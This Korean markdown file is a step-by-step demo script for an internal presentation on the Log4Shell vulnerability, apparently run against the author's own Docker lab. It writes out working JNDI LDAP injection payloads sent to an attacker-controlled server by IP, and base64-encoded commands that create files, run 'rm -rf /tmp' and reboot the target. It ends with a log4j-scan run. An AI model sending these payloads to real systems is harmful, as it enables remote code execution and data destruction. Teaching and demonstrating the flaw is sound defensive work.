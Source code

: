 # log4j 공격 시연 시나리오 및 스캔 시연

> 사내 연말 Log4j 취약점 이슈 발표용 시연 시나리오

## 서버 세팅

### 1. 취약 서버(1번탭)

```zsh
docker start vulnerable-app
docker logs -f vulnerable-app
```

![1](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/1.png)

> 새로운 탭 `Ctrl+Shift+T`
>
> 2번탭:  `docker exec -it vulnerable-app ls -al /tmp` 해서 tmp 폴더 상태 띄워두기

![2](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/2.png)

### 2. 공격 서버

> 3번 탭 새로 하나 띄우고 `Ctrl+Shift+T`

```zsh
ssh cloud
java -jar /shane/attack.jar -i 146.56.44.96 -p 8888
```

![3](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/3.png)

### 3. Postman 실행

> Postman 크기를 적당히 조정해서 1번 tab의 로그가 갱신될 때 확인 가능하도록 해둠. Terminal Tab을 1번으로 돌려둠.

## 공격

> Postman에 요청

### Log4J가 JNDI LookUp을 하고 있는지 확인

```zsh
GET: localhost:9999
Header Key: X-Api-Version
Header Value: ${jndi:java:version}
```

![4](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/4.png)

> javq 버전 올라오는 것 확인 후, Tab을 공격 서버로 변경 (3번탭)

### LDAP 서버로 요청을 보내는지 확인

```zsh
GET: localhost:9999
Header Key: X-Api-Version
Header Value: ${jndi:ldap://146.56.44.96:1389/argonet}
```

> Postman 사용불가능할 경우 Terminal에서 curl로 요청
>
> ```zsh
> curl 127.0.0.1:9999 -H 'X-Api-Version: ${jndi:ldap://146.56.44.96:1389/argonet}'
> ```

![5](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/5.png)

- 공격 쿼리 전송

> 3번 tab에서 LDAP 요청 온것 확인 후, 1번탭에서 look up 한것 확인 후 다시 3번 탭 띄워둠.

### 쿼리로 보낼 커맨드 Base64로 인코딩

```zsh
echo -n 'touch /tmp/argonet.december-table' | base64
```

![6](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/6.png)

### 취약 서버에 명령어 전송

```zsh
PostMan으로 헤더에 X-Api-Version value 넣어서 요청 혹은 curl로 요청
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://146.56.44.96:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9hcmdvbmV0LmRlY2VtYmVyLXRhYmxl}'
```

![7](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/7.png)

> Payload에 `touch /tmp/agronet.december-table` 이라는 커맨드를 담아 요청 한 것을 확인.

### 취약서버 공격 당한 흔적 확인

> 2번 Tab을 열어 같은 명령어를 그대로 쳐서 새로운 파일이 들어온 것을 확인

![8](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/8.png)

> 백도어가 간단하게 심어진다는 것을 설명. 파일 생성시간을 확인 시켜준다.

UTC 시간을 확인시켜 준다.

```zsh
date -u
```

![9](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/9.png)

폴더 삭제 시연

> 다시 공격 서버로 탭 3번 올려둠.

명령어 만들기 위해 새로운 창의 Terminal에서 tmp 폴더 삭제 명령어 인코딩 후 공격 코드 전송

```zsh
echo -n 'rm -rf /tmp' | base64
```

![10](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/10.png)

이후 두번째 탭에서 파일 삭제 된 것 확인

![11](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/11.png)

### reboot 명령까지 전송

> 3번탭에서 reboot 명령어 전송 된 것 확인 후 docker 컨테이너 종료 된 것 확인

![12](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/12.png)

<br><br>

공격 시연 끝 다시 발표로 돌아가기

## log4j scan 시연

일단 vulnerable-app 다시 실행 해 준다.

```zsh
docker start vulnerable-app
```

> 혹시 tmp 폴더를 지워버렸으면 docker 컨테이너가 실행이 안되니 /tmp 폴더를 생성 해줘야함
>
> 안그러면 서버가 계속 죽는다.
>
> ```zsh
> mkdir tmp
> docker cp ./tmp vulnerable-app:/
> docker start vulnerable-app
> ```

`docker logs -f vulnerable-app ` 해서 서버 잘 뜬거 확인 후

```zsh
git clone git@github.com:fullhunt/log4j-scan.git
```

```
cd log4j-scan
ls
pip3 install -r requirements.txt
python3 log4j-scan.py -u "http://gaia.best"
```

![13](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/13.png)

이번에는 취약 서버 확인

```zsh
python3 log4j-scan.py -u "http://localhost:9999"
```

![14](/Users/shane/Documents/Github/mdblog/presentation/log4shell.assets/14.png)

Targets Affected 확인.

<br><br>

취약점 스캔 시연 끝. 발표로 돌아가기